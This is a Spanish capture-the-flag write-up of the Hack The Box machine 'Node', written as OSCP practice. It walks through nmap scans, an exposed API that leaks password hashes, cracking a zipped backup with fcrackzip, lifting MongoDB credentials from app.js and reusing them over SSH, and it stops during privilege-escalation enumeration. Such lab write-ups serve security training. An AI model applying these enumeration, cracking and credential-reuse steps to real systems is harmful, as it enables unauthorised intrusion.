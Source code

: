 ```yaml
---
layout: post
title:  "OSCP Path ~ Node de Hack The Box (Necesario VIP)"
description: Writeup de la maquina de HackTheBox llamada NODE siguiendo el PATH para el OSCP
tags: HTB, OSCP Path, app-js, fcrackzip, MongoDB, Scheduler, Cron-taks, Maquinas Retiradas, Writeup, Hacking
---
```


# Node ~ Hack The Box to OSCP

Realizamos el Primer escaneo con Nmap
```bash
$" nmap -p- --open -sS --min-rate 4000 -vvv -n -Pn -oG allports 10.10.10.58       "
``` 
Procedemos con el siguiente escaneo de Nmap
```bash
		PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:5e:34:a6:25:db:43:ec:eb:40:f4:96:7b:8e:d1:da (RSA)
|   256 6c:8e:5e:5f:4f:d5:41:7d:18:95:d1:dc:2e:3f:e5:9c (ECDSA)
|_  256 d8:78:b8:5d:85:ff:ad:7b:e6:e2:b5:da:1e:52:62:36 (ED25519)
3000/tcp open  hadoop-datanode Apache Hadoop
| hadoop-datanode-info: 
|_  Logs: /login
| hadoop-tasktracker-info: 
|_  Logs: /login
|_http-title: MyPlace
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Entramos para visualizar la web por el puerto 3000

Hacemos CTRL + U

Encontramos esto en js que hace referencia a una app pinchamos en + /profile/`
```js
<script type="text/javascript" src="assets/js/app/controllers/profile.js"></script>
```
hacemos una peticion `Curl` 
```bash
Procedemos pinchando en /assets/js/app/controllers/profile.js
# curl -s -X GET "http://10.10.10.58:3000/assets/js/app/controllers/profile.js"                                                                                                                               4 ⨯
var controllers = angular.module('controllers');

controllers.controller('ProfileCtrl', function ($scope, $http, $routeParams) {
  $http.get("'/api/users/'" + $routeParams.username)
    .then(function (res) {
      $scope.user = res.data;
    }, function (res) {
      $scope.hasError = true;

      if (res.status == 404) {
        $scope.errorMessage = 'This user does not exist';
      }
      else {
        $scope.errorMessage = 'An unexpected error occurred';
      }
    });
});
```
Nos devuelve una ruta potencial: /api/users/
Procedemos a apuntar a ella y encontramos unas credenciales
```bash
# curl -s -X GET "http://10.10.10.58:3000/api/users/" |  jq                                                                                                                                                 123 ⨯
[
  {
    "_id": "59a7365b98aa325cc03ee51c",
    "username": "myP14ceAdm1nAcc0uNT",
    "password": "dffc504aa55359b9265cbebe1e4032fe600b64475ae3fd29c07d23223334d0af",
    "is_admin": true
  },
  {
    "_id": "59a7368398aa325cc03ee51d",
    "username": "tom",
    "password": "f0e2e750791171b0391b682ec35835bd6a5c3f7c8d1d0191451ec77b4d75f240",
    "is_admin": false
  },
  {
    "_id": "59a7368e98aa325cc03ee51e",
    "username": "mark",
    "password": "de5a1adf4fedcce1533915edc60177547f1057b61b7119fd130e1f7428705f73",
    "is_admin": false
  },
  {
    "_id": "59aa9781cced6f1d1490fce9",
    "username": "rastating",
    "password": "5065db2df0d4ee53562c650c29bacf55b97e231e3fe88570abc9edd8b78ac2f0",
    "is_admin": false
  }
]
```
Credenciales:
```bash
User que es admin
user: myP14ceAdm1nAcc0uNT
pass: manchester
```
Accedemos -- nos descargamos un archivo : `myplace.backup`

Le hacemos un cat al archivo vemos que esta en base64 asique procedemos a decodificarlo
```bash
# cat myplace.backup| base64 -d >> myplace
# file myplace     
myplace: Zip archive data, at least v1.0 to extract
# 7z x myplace  ------- NOS PIDE CONTRASEÑA
```
Procdemos a intentar crackearlo con la herramienta fcrackzip
```bash
# ls
myplace  myplace.backup
# fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt -v myplace 
PASSWORD FOUND!!!!: pw == "magicword"
```
Vemos que hemos obtenido un monton de directorios con recursos, nos metemops en `/var/www/myplace`

Filtramos por una busqueda para encontrar datos relevantes en los archivos
```bash
# cat app.js | grep -i -E "user|pass|db"                                                                                                                                                                      1 ⨯
const MongoClient = require('mongodb').MongoClient;
const ObjectID    = require('mongodb').ObjectID;
const url         = 'mongodb://mark:5AYRft73VtFpc84k@localhost:27017/myplace?authMechanism=DEFAULT&authSource=myplace';
MongoClient.connect(url, function(error, db) {
  if (error || !db) {
    console.log('[!] Failed to connect to mongodb');
```
Credenciales Obtenidas:
```bash
mark: 5AYRft73VtFpc84k
```
Entramos con estas credenciales por SSH por la reutilizacion de credenciales.
```bash
# ssh mark@10.10.10.58 

mark@node:~$ ls -la
total 24
drwxr-xr-x 3 root root 4096 Sep  3  2017 .
drwxr-xr-x 5 root root 4096 Aug 31  2017 ..
-rw-r--r-- 1 root root  220 Aug 31  2017 .bash_logout
-rw-r--r-- 1 root root 3771 Aug 31  2017 .bashrc
drwx------ 2 root root 4096 Aug 31  2017 .cache
-rw-r----- 1 root root    0 Sep  3  2017 .dbshell
-rwxr-xr-x 1 root root    0 Sep  3  2017 .mongorc.js
-rw-r--r-- 1 root root  655 Aug 31  2017 .profile
```
Intentando enumerar el sistema un poco vemos que tenemos en /var/ 

encontramos el directorio /scheduler/ que suele ser para tareas cron a nivel de sistema o tiene relacion
```bash
mark@node:/var/scheduler$ ls -l
total 20
-rw-rw-r--  1 root root  910 Sep  3  2017 app.js
drwxr-xr-x 19 root root 4096 Sep  3  2017 node_modules
-rw-rw-r--  1 root root  176 Sep  3  2017 package.json
-rw-r--r--  1 root root 4709 Sep  3  2017 package-lock.json
```
lanzamos un script `procmon`
para detectar tareas CRON a nivel de sistema
```bash
/usr/bin/mongod --auth --quiet --config /etc/mongod.conf
scheduler --?¿ -- Son tareas Cron a nivel de base de datos MONGO DB
> /usr/bin/node /var/scheduler/app.js
```
Probamos a conectarnos a la base de datos mongo que aparece bastante con las credenciales del 
```bash
user: mark
pass: 5AYRft73VtFpc84k
``` 
